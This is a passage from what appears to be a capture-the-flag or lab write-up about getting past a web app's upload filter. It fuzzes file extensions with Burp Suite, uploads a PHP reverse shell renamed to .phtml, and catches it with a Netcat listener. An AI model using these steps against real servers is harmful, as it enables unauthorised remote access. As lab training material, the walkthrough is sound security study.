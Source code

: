 -   [Extensions like `.png`{.markup--code .markup--li-code}
    and `.jpeg`{.markup--code .markup--li-code} fail due to
    restrictions.]{#73c9}
-   [\
    ]{#7994}

1.  [\
    ]{#a3e2}
2.  [Use **Burp Suite** to intercept upload requests and fuzz for
    allowed extensions.]{#730a}
3.  [\
    ]{#9b71}

-   [Set up the intruder to fuzz the file extension field.]{#31a5}
-   [\
    ]{#7564}
-   [Identify `.phtml`{.markup--code .markup--li-code} as an allowed
    extension.]{#c31e}
-   [\
    ]{#ce29}

1.  [\
    ]{#1cee}
2.  [Modify a PHP reverse shell script (e.g.,
    `php-reverse-shell.php`{.markup--code .markup--li-code}) with your
    local IP and listening port:]{#1d21}
3.  [\
    ]{#321d}

``` {#1def .graf .graf--pre .graf-after--li .graf--preV2 code-block-mode="1" spellcheck="false" code-block-lang="bash"}
cp /usr/share/webshells/php/php-reverse-shell.php ./shell.phtml
```

1.  [Set up a Netcat listener to catch the reverse shell:]{#7151}
2.  [\
    ]{#cc13}

``` {#1169 .graf .graf--pre .graf-after--li .graf--preV2 code-block-mode="1" spellcheck="false" code-block-lang="yaml"}
nc -lvnp 1234
```

1.  [Upload the modified `.phtml`{.markup--code .markup--li-code} script
    and access it via the browser:]{#755c}
2.  [\
    ]{#c109}

-   [Navigate to:
    `http://<target_IP>:3333/internal/uploads/shell.phtml`{.markup--code
    .markup--li-code}]{#210e}
-   [\
    ]{#ab6f}
-   [This triggers the reverse shell connection.]{#07ee}
-   [\
    ]{#86b5}

1.  [\
    ]{#b965}
